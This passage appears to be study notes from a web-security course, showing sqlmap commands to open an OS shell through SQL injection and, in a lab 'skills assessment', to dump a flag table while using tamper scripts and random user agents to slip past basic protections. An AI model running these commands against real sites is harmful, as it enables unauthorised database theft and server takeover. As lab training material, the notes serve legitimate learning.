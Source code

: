   * OS command execution:

    ```shell
    # no need to write a remote shell manually
    sqlmap -u "http://www.example.com/?id=1" --os-shell
    # if default UNION technique does not work for shell
    # try other methods, like using '--technique=E'
    ```

## Skills Assessment

* While navigating the website, we can intercept requests using Burp Suite to check the request-response closely; we see a POST request with JSON data sent when adding an item to cart - intercept and save this request to a file.

  ```shell
  sqlmap -r req-1.txt --batch --dump
  # this will not work as the site has basic protection mechanisms in place

  sqlmap -r req-1.txt --risk=3 --level=5 --no-cast --batch --dump --tamper=between --random-agent -T final_flag
  ```
